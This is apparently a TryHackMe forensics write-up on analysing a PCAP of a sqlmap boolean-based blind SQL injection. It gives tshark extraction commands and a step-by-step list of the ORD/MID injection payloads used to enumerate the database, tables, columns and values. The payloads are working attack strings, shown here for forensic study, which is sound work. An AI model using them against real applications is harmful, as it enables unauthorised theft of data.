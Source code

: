 ```yaml
---
date: March 20, 2025
description: Inspecting sqlmap blind attack packets
platform: TryHackMe
categories: Forensics, Web
tags:
---
```

#pcap #sqli #forensics
# Sequel Dump 
A wave of suspicious web requests has bee detected hammering our database-driven application. Analysts suspect an automated `SQL injection attack` has been launched using `sqlmap`, leading to potential data `exfiltration`. Investigate the provided packet capture (`PCAP`) file to uncover the attackers’s actions and determine what was stolen!
# Solution

sqlmap logs, blind boolean-based we need to know what the attacker stole. 

Inspecting the pcap file it looks like its a boolean-based blind executed with sqlmap
![](_attachments/Pasted%20image%2020250321062649.png)

extract sqlmap request using tshark
## Extracting sqlmap requests 
(for inspection)

extract sqlmap user-agent queries
```bash
tshark -r challenge.pcapng -Y 'http.request and http.request.line contains "User-Agent: sqlmap"' -T fields -e http.request.uri.query | python3 -c "import sys, urllib.parse; [print(urllib.parse.unquote(line.strip())) for line in sys.stdin]" > sqlmap.queries

```
extract profile_db queries
```bash
tshark -r challenge.pcapng -Y 'http.request.uri.query contains "query=1%20AND%20" and http.request.uri.query contains profile_db' -T fields -e http.request.uri.query | python3 -c "import sys, urllib.parse; [print(urllib.parse.unquote(line.strip())) for line in sys.stdin]" | cut -d '=' -f2 > profile_db.queries
```

get tcp with profile db
matches queries
```bash
# sqlmap queries
tshark -r challenge.pcapng -Y 'http.request and http.request.line contains "User-Agent: sqlmap"' -T fields -e http.request.uri.query | python3 -c "import sys, urllib.parse; [print(urllib.parse.unquote(line.strip())) for line in sys.stdin]" > sqlmap.queries 
```
? checking manually in wireshark we can see what the response would look like if boolean is true / false

`http.response and frame contains "No results"` `http.response and not frame contains "No results"`
![](_attachments/Pasted%20image%2020250321063524.png)


filtering truthy response would give us an idea what data the attacker has exfiltrated,
        
to do so get the tcp stream for (truthy) values and also get the request using the tcp stream id that matches that response get tcp stream response

## Extract truthy requests that returns response
get tcp stream response (with truthy) 
```bash
tshark -r challenge.pcapng -Y "http.response and not frame contains \"No results\"" -T fields -e tcp.stream > tcp_true_responses.queries
```    

get tcp stream request from the tcp response list
```bash
tshark -r challenge.pcapng -Y "tcp.stream in {$(paste -sd, tcp_true_responses.queries)} and http.request.uri.query contains \"query=1%20AND%20\"" -T fields -e http.request.uri.query | python3 -c "import sys, urllib.parse; [print(urllib.parse.unquote(line.strip())) for line in sys.stdin]" > exfil.queries
```

## Scripting it 
described below 

# ORD technique step by step
just notes for scripting  created scuffed script `extract.py`

> always +1 per truthy if ord (51) was the last truthy then the character in question was chr(52)
# Database

## GET DB length
```sql
query=1 AND ORD(MID((IFNULL(CAST(CHAR_LENGTH(DATABASE()) AS NCHAR),0x20)),1,1))>51
```
## GET DB Characters
```sql
query=1 AND ORD(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),8,1))>94
```
# Table Enumeration
## Table Count
`table_schema` = hexed db name
`COUNT(table_name)` -  `WHERE table_schema=hex(db))`  - `i,1))> 55`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x70726f66696c655f6462),1,1))>48
```
## TABLE (n) length 
`CHAR_LENGTH(table_name)` -  `LIMIT n,1)`  - `i,1))> 55`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(table_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x70726f66696
c655f6462 LIMIT 0,1),1,1))>55
-- looks first table  first character
```

## TABLE (n) names
`table_schema` = hexed db name
`table_name` -  `WHERE table_schema=hex(db))` - `LIMIT n, 1)` - `i,1))> 55`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(table_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x70726f66696c655f6462 LIM
IT 0,1),8,1))>114
```
> do i need table schema? 

# Columns
## Column count
`COUNT(column_name)`
- hex table_name
- hex db_name
- char `(i, 1) > 50`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x70726f66696c6573 AND table_schema=0x70726f66696c655f6462),1,1))>50
```
## Column (n) length
`CHAR_LENGTH(column_name)`
- hex table_name
- hex db_name
- `LIMIT n, 1)
- char `(i, 1)`
```
query=1 AND ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(column_name) AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x70726f66696c6573 AND table_schema=0x70726f66696c655f6462 LIMIT 0,1),2,1))>48
```

## Column (n) name
`column_name`
- hex table_name
- hex db_name
- `LIMIT n, 1)
- char `(i, 1)`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(column_name AS NCHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x70726f66696c6573 AND table_schema=0x70726f66696c655f6462 LIMIT 0,1),2,1))>48
```

# Values
## Values count (n) length
`COUNT(*)` 
`(CHAR_LENGTH(`description)`
- `FROM profile_db.profiles`  
- `LIMIT n, 1)
- char `(i, 1)`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(COUNT(*) AS NCHAR),0x20) FROM profile_db.`profiles`),1,1))>54

query=1 AND ORD(MID((SELECT IFNULL(CAST(CHAR_LENGTH(`description`) AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 0,1),1,1))>48
```

## (n) Row (c) column 
`description`
- `FROM profile_db.profiles`  
- `LIMIT n, 1) - 
- char `(i, 1)`
```sql
query=1 AND ORD(MID((SELECT IFNULL(CAST(`description` AS NCHAR),0x20) FROM profile_db.`profiles` ORDER BY id LIMIT 0,1),1,1))>64
```

![](_attachments/Pasted%20image%2020250324043140.png)

